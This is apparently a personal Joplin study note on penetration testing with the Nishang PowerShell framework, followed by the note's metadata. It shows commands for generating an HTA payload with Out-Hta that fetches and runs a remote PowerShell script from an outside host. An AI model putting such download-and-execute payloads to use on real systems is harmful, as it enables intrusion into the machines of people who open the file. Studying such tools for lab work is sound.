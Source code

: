 Nishang

### Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.

go to /opt/nishang

find the scripts related to what is required: e.g. for hta extension file

> find . | grep -i hta

E.g. Out-HTA - Generate HTA Payload

> cd Client
> pwsh
> 
> . ./Out-Hta.ps1
> 
> Out-Hta -PayloadURL http://10.10.14.17/ippsec.ps1

id: 85f863ac1b834cae82575a30d4170a3a
parent_id: 8e7bd5349cf3494986eccd0619b576c9
created_time: 2022-01-19T04:11:12.584Z
updated_time: 2022-02-04T01:20:47.718Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1642565472584
user_created_time: 2022-01-19T04:11:12.584Z
user_updated_time: 2022-02-04T01:20:47.718Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1
